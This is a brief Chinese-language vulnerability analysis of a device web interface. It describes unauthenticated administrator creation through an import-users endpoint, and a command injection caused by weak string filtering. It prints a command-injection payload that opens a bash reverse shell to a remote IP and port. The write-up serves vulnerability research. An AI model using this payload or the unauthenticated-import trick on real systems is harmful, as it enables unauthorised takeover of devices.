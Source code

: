 ```yaml
---
title: Web处理逻辑
tags: web,漏洞
renderNumberedHeading: true
grammar_cjkRuby: true
---
```


# 1. 漏洞分析

1. 首先未授权获取目标设备的管理账户权限，在`/spog/importLocalUsers`中，可以未授权导入任意的用户，包含管理员，因此可以使用该接口添加管理员，管理员的密码同样可以通过导入设置

2. 字符串过滤不严格，可以构造命令，污染system执行，命令;bash -i >& /dev/tcp/192.168.2.110/12345 0>&1;#

![命令注入点](./images/1_1.PNG)

![未过滤输入字符串](./images/2.PNG)




